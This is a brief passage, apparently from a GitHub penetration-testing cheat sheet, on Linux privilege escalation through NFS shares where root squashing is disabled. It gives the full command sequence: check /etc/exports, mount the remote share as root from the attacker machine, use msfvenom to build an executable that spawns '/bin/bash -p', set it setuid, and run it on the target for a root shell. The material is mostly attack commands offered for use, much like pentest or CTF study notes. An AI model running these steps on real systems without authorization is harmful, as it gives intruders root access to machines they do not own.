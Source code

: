Network FIle System(NFS)

file created by NFS inherit the user id, if root squashing disabled. If enabled, file created would have a "nobody" user.

Check root squashing in
```bash
cat /etc/exports
```

as root in attacker machine create a mount point and mount the folder where root squashing is disabled
```bash
mkdir /tmp/nfs  
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
```
generate a payload that create a root privileged shell in the mounted folder
```bash
`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`
chmod +xs /tmp/nfs/shell.elf
```
Run the executable to get root shell.
